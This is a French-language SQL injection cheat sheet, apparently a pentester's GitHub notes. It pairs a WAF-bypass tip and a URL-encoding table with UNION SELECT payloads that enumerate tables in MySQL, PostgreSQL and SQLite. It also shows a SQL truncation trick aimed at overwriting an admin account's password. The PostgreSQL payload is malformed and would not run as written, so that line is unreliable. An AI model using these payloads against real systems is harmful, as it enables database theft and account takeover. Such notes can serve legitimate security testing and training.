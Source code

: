 
# SQL injection

- WAF bypass

/**/ fonctionne comme un espace

    espace 	%20 	%20
    ! 	%21 	%21
    " 	%22 	%22
    \#  %23 	%23
    $ 	%24 	%24
    % 	%25 	%25
    & 	%26 	%26
    ' 	%27 	%27
    ( 	%28 	%28
    ) 	%29 	%29
    \* 	%2A 	%2A
    \+ 	%2B 	%2B
    , 	%2C 	%2C
    \- 	%2D 	%2D
    . 	%2E 	%2E
    / 	%2F 	%2F
    0 	%30 	%30
    1 	%31 	%31
    2 	%32 	%32
    3 	%33 	%33
    4 	%34 	%34
    5 	%35 	%35
    6 	%36 	%36
    7 	%37 	%37
    8 	%38 	%38
    9 	%39 	%39
    : 	%3A 	%3A
    ; 	%3B 	%3B
    < 	%3C 	%3C
    = 	%3D 	%3D
    \> 	%3E 	%3E
    ? 	%3F 	%3F
    @ 	%40 	%40
    A 	%41 	%41
    B 	%42 	%42
    C 	%43 	%43
    D 	%44 	%44
    E 	%45 	%45
    F 	%46 	%46
    G 	%47 	%47
    H 	%48 	%48
    I 	%49 	%49
    J 	%4A 	%4A
    K 	%4B 	%4B
    L 	%4C 	%4C
    M 	%4D 	%4D
    N 	%4E 	%4E
    O 	%4F 	%4F
    P 	%50 	%50
    Q 	%51 	%51
    R 	%52 	%52
    S 	%53 	%53
    T 	%54 	%54
    U 	%55 	%55
    V 	%56 	%56
    W 	%57 	%57
    X 	%58 	%58
    Y 	%59 	%59
    Z 	%5A 	%5A
    [ 	%5B 	%5B
    \ 	%5C 	%5C
    ] 	%5D 	%5D
    ^ 	%5E 	%5E
    _ 	%5F 	%5F
    \` 	%60 	%60
    a 	%61 	%61
    b 	%62 	%62
    c 	%63 	%63
    d 	%64 	%64
    e 	%65 	%65
    f 	%66 	%66
    g 	%67 	%67
    h 	%68 	%68
    i 	%69 	%69
    j 	%6A 	%6A
    k 	%6B 	%6B
    l 	%6C 	%6C
    m 	%6D 	%6D
    n 	%6E 	%6E
    o 	%6F 	%6F
    p 	%70 	%70
    q 	%71 	%71
    r 	%72 	%72
    s 	%73 	%73
    t 	%74 	%74
    u 	%75 	%75
    v 	%76 	%76
    w 	%77 	%77
    x 	%78 	%78
    y 	%79 	%79
    z 	%7A 	%7A
    { 	%7B 	%7B
    | 	%7C 	%7C
    } 	%7D 	%7D
    ~ 	%7E 	%7E
    	%7F 	%7F
    ` 	%80 	%E2%82%AC

- Retreive tables

1.  Mysql

        union select group_concat(table_name) from information_schema.tables 
		
3. PostgreSQL

       UNION SELECT * FROM string_agg(tablename, ',') WHERE schemaname != 'pg_catalog'  AND schemaname != 'information_schema';

3. SQLite

       union select group_concat(name) from sqlite_master WHERE type='table'

- SQL Truncation

e.g. :

    Update Users set password = $password where username= $login
	login = varchar(25)
	with $login = 'admin(blankspace x 19)x'

